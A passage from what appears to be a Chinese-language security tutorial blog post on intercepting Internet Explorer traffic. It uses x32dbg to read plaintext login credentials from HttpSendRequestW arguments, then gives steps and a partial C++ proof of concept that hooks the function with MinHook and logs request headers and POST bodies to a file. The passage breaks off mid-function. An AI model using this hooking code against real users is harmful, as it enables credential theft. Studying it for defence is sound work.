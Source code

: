 實際用 x32dbg 看看，在右邊中間的視窗有 Calling Convention 的參數，分別看第二個 lpszHeaders 和第四個 lpOptional。
![](https://i.imgur.com/Ua65YWH.png)

以上圖來看，第二個參數是 `0C802590`，左下角 Memory Dump 那邊按下 Ctrl-g 輸入這個值就可以看到 Request Header。
![](https://i.imgur.com/B31tQgI.png)

再去 [BambooFox 登入頁面](https://bamboofox.cs.nctu.edu.tw/users/sign_in)隨便輸入一組帳號密碼，送出後一樣會停在斷點。這邊我輸入帳號 user@haha.com，密碼為 password。
![](https://i.imgur.com/Qxx8UZj.png)

然後跟看第二個參數差不多，只是這次是看第四個參數，以上圖來看是 `12B3D5F0`。一樣在 Memory Dump 輸入，就可以看到明文的帳號密碼。
![](https://i.imgur.com/0LrrTrw.png)


## 實作
### 實作流程
1. 取得 wininet.dll 的 Handle
2. 從 wininet.dll 找出 HttpSendRequestW 的位址
3. Hook HttpSendRequestW，將它竄改成我們自己定義的函數。定義的函數中，會把第二個參數與第四個參數寫到檔案中，然後呼叫原本的 HtppSendRequestW
4. 啟用 Hook

### POC
程式專案可以參考我的 GitHub 專案 [zeze-zeze/2021iThome](https://github.com/zeze-zeze/2021iThome/tree/master/%E7%A9%BF%E9%81%8EIE%E7%9A%84%E5%B7%B4%E5%B7%B4/HookIE)。
```cpp=
#include "pch.h"
#include <Windows.h>
#include "MinHook.h"
#include <WinInet.h>
#include <fstream>
#include <stdio.h>

using namespace std;

#pragma comment(lib, "libMinHook.x86.lib")

// HttpSendRequestW 的函數原型，可以從 MSDN 查到
typedef BOOL (WINAPI* HTTPSENDREQUESTW)(HINTERNET, LPCWSTR, DWORD, LPVOID, DWORD);
HTTPSENDREQUESTW fpHttpSendRequestW = NULL;

// 將資訊寫入 debug.txt 檔案中
void DebugLog(wstring str) {
    wofstream file;
    file.open("C:\\debug.txt", std::wofstream::out | std::wofstream::app);
    if (file) file << str << endl << endl;
    file.close();
}

// 竄改 DetourHttpSendRequestW 的函數
BOOL WINAPI DetourHttpSendRequestW(HINTERNET hRequest,
    LPCWSTR   lpszHeaders,
    DWORD     dwHeadersLength,
    LPVOID    lpOptional,
    DWORD     dwOptionalLength) {
    // 第二個參數是 Request Header，把它寫入檔案中
    if (lpszHeaders) {
        DebugLog(lpszHeaders);
    }

    // 第四個參數通常是 POST、PUT 的參數，把它寫入檔案中
    if (lpOptional) {
        wchar_t  ws[1000];
```